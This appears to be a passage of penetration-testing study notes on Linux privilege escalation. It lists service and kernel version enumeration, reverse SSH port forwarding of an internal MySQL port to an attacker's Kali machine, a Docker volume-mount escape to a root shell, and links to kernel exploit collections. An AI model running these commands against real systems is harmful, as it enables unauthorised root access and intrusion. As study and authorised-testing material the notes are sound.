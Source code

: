 ### Service Exploits

```bash
ps aux | grep "^root"
<program> --version, -v
dpkg -l | grep <program>  # Debian based OS
rpm -qa | grep <program>  # Red Hat based OS
# Search on output for exploits (Google/Searchsploit/GitHub)
```

#### Port Forwarding

```bash
# If a root process is bound to an internal port and exploit cannot run on target
# From Target
netstat -nl
> tcp    0    127.0.0.1:3306  # Example of mysql listening locally
ssh -R <Kali-port>:127.0.0.1:<service-port> <username>@<Kali-machine>
ssh -R 4444:127.0.0.1:3306 kali@<Kali-machine>

# From Kali
netstat -ano | grep LIST  # Verify port forward is listening
mysql -u root -h 127.0.0.1 -P 4444
> select @@hostname
```

### Docker

```bash
# List Docker images
docker images
docker image ls
# Exploit via gtfobins
docker run -v /:/mnt --rm -it alpine chroot /mnt sh  # Replace alpine with actual image
# Another option
docker run -v /:/mnt --rm -it bash chroot /mnt sh
```

### Kernel Exploits

[https://github.com/lucyoa/kernel-exploits](https://github.com/lucyoa/kernel-exploits)

[https://github.com/SecWiki/linux-kernel-exploits](https://github.com/SecWiki/linux-kernel-exploits)

Should show up in LinEnum or linux-exploit-suggester

```bash
uname -a  # Enumerate kernel version
# Search on output for exploits (Google/Searchsploit/GitHub)
searchploit linux kernel 2.6 debian priv esc
```
